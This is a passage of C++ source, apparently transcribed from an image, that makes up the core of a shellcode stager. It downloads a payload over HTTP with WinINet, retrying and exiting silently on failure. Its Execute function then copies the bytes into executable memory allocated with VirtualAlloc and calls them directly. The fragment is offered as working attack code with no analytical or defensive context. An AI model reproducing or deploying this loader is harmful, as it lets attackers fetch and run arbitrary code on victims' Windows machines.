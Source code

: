 ```cpp
		0,
		0);

	WORD counter = 0;
	while (!HttpSendRequest(request, NULL, 0, 0, 0)) {
		//printf("Error sending HTTP request: : (%lu)\n", GetLastError()); // only for debugging

		counter++;
		Sleep(3000);
		if (counter >= 3) {
			exit(0); // HTTP requests eventually failed
		}
	}

	DWORD bufSize = BUFSIZ;
	byte* buffer = new byte[bufSize];

	DWORD capacity = bufSize;
	byte* payload = (byte*)malloc(capacity);

	DWORD payloadSize = 0;

	while (true) {
		DWORD bytesRead;

		if (!InternetReadFile(request, buffer, bufSize, &bytesRead)) {
			//printf("Error reading internet file : <%lu>\n", GetLastError()); // only for debugging
			exit(0);
		}

		if (bytesRead == 0) break;

		if (payloadSize + bytesRead > capacity) {
			capacity *= 2;
			byte* newPayload = (byte*)realloc(payload, capacity);
			payload = newPayload;
		}

		for (DWORD i = 0; i < bytesRead; i++) {
			payload[payloadSize++] = buffer[i];
		}

	}
	byte* newPayload = (byte*)realloc(payload, payloadSize);

	InternetCloseHandle(request);
	InternetCloseHandle(connection);
	InternetCloseHandle(session);

	struct Shellcode out;
	out.data = payload;
	out.len = payloadSize;
	return out;
}

void Execute(Shellcode shellcode) {
	void* exec = VirtualAlloc(0, shellcode.len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode.data, shellcode.len);
	((void(*)())exec)();
}
```
